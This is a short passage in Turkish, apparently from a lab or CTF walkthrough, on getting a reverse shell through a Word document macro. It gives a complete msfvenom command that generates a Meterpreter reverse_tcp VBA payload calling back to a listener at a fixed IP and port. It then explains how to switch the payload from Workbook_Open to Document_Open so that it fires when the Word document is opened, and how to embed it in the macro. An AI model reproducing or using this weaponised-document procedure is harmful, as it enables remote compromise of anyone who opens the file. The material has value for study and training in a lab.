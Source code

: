 Şimdi bunu reverse shell alabilmek için kullanalım :

Msfvenom ile payload'ı oluşturabiliriz :

     msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.84.185 LPORT=4444 -f vba -o payload.vba

Fakat buradaki sorun, payload'ın excel'e göre hazırlanmış olması. Bunu word'e göre hazırlamak için oluşturulan dosyayı(bu durumda payload.vba) bir text editörü ile açıp Workbook_Open()'i Document_Open() şeklinde değiştiriyoruz.

Ardından Word dosyamızı tekrar düzenleyip makronun içine payload.vba'nın içeriğini kopyalıyoruz :

![vba6.png](img/vba6.png)
